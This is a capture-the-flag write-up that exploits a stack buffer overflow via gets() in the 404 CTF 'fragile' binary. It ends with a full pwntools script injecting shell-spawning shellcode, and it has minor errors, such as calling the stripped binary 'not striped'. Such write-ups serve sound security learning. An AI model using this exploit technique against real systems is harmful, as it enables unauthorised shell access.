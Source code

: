```yaml
---
title: 404 CTF Sans Protection
date: 2022-09-13 18:18:35
---
```



Before we start you need to download the binary from here : [Binary](https://drive.google.com/file/d/11CL4lsEt_YBYbp5uQU474CR9KLv6eYJn/view?usp=sharing).

Here we go let's start by running the binary and see what we have : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ ./fragile
Montrez-nous de quoi vous êtes capable !
Cadeau : 0x7fff8ec7ec20
Asslema ya Hmema
````

As you can see the binary gave us some random memory address with a beautiful hello in *french*. Why don't we start by checking the architecture of the binary with the file command : 
```console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ file fragile
```
We got : 

````bash
fragile: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a457609506482cdebb144dbacd9c1f6fba34955, stripped
````
As we can see the architecture of the binary is 64 bit, it's also dynamically linked and not striped. Let's try checking out the mitigations that is ON : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ pwn checksec fragile
````

We got : 

````bash 
[*] '/mnt/c/Users/IR0NYTE/Desktop/ctf/fragile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
````

So as you can see we have no stack canary protecting the stack from overriding the return of the program, we also have the right to execute code in the stack since the **NX** is disabled. Since this two mitagations are off i was curious a little of bit to know more about this random address that the binary was throwing at me so i fired up my ghidra and started making some analysis on it, i tried to decompile the main. Here's what i got : 


![](https://i.imgur.com/rlikp42.png)

After a quick look at the main, i noticed that there was a call to the **gets** function wich was a little of bit wired since the **gets** function have no limit on the size of the input which can lead to a buffer overflow attack. After that, i have noticed also that the address that the program was displaying was the address of the buffer. The idea is quite simple, we will try to inject a 64 bit shellcode in the beginning of the buffer from [Shell Storm](https://shell-storm.org/shellcode/) which will spawn for us a shell (*system("bin/bash")* Syscall), after that we will try to overflow the buffer until we get to the return address of the program then just redirect the return to the address of the buffer to execute our malicious shellcode. so we need to calculate the offset between the buffer and the return address. Let's fire up the gdb and set a break point after that **gets** call than i just typed in "mike" and then tried to calculate the offset from there :

````gdb
gef➤  search-pattern "mike"
[+] Searching 'mike' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6022a0 - 0x6022a6  →   "mike\n"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffe0f0 - 0x7fffffffe0f4  →   "mike"
gef➤  i f
Stack level 0, frame at 0x7fffffffe140:
 rip = 0x400662; saved rip = 0x7ffff7e0d7fd
 called by frame at 0x7fffffffe210
 Arglist at 0x7fffffffe0e8, args:
 Locals at 0x7fffffffe0e8, Previous frame's sp is 0x7fffffffe140
 Saved registers:
  rbp at 0x7fffffffe130, rip at 0x7fffffffe138
````
Offset = 0x7fffffffe138 - 0x7fffffffe0f0 = 0x48.

Here's the final exploit : 

````python
from pwn import *

#target = remote('challenge.404ctf.fr', 31720)
target = process('./fragile') 

# Setting up the leak
# 0x7ffe3c40e910
screen = target.recvline().decode()
leak = target.recvline().decode().strip("Cadeau :").strip("\n")
leak = bytes(leak, 'utf-8')
leak = int(leak, 16)

# Print the leak
print("Leak : ", hex(leak))

# Setting up the Payload
offset = 0x48
payload = b""
payload += b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
payload += b"A"*(offset - len(payload))
payload += p64(leak)

#gdb.attach(target, gdbscript='b* 00400668')
target.sendline(payload)
target.interactive()
````





